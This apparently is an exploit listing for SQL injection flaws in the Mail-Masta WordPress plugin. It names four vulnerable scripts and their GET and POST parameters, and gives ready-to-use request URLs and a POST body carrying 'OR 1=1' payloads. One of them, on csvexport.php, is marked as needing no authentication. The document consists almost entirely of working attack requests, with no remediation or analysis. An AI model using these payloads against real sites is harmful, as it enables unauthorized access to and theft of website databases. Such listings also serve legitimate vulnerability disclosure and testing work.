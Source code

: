 Mail-Masta SQL Injection
=========================================
Page: ../wp-content/plugins/mail-masta/inc/lists/csvexport.php (Unauthenticated)

GET Parameter: list_id

http://my_wp_app/wp-content/plugins/mail-masta/inc/lists/csvexport.php?list_id=0+OR+1%3D1&pl=/var/www/html/wordpress/wp-load.php


=========================================

Page: ../wp-content/plugins/mail-masta/inc/lists/view-list.php (Requires Wordpress admin)

GET Parameter: filter_list

http://my_wp_app/wp-admin/admin.php?page=masta-lists&action=view_list&filter_list=0+OR+1%3D1


=========================================

Page: ../wp-content/plugins/mail-masta/inc/campaign/count_of_send.php (Requires Wordpress admin)

POST Parameter: camp_id

http://my_wp_app/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php/?pl=/var/www/html/wordpress/wp-load.php

=========================================


Page: ../wp-content/plugins/mail-masta/inc/campaign_save.php (Requires Wordpress admin)

POST Parameter: list_id

POST /wp-admin/admin-ajax.php?id= HTTP/1.1

...snip...

action=my_action&url=%2Fvar%2Fwww%2Fhtml%2Fwp-content%2Fplugins%2Fmail-masta%2Finc%2Fcampaign_save.php&sender_selected_list_check=check&list_id=1+OR+1%3D1

=========================================
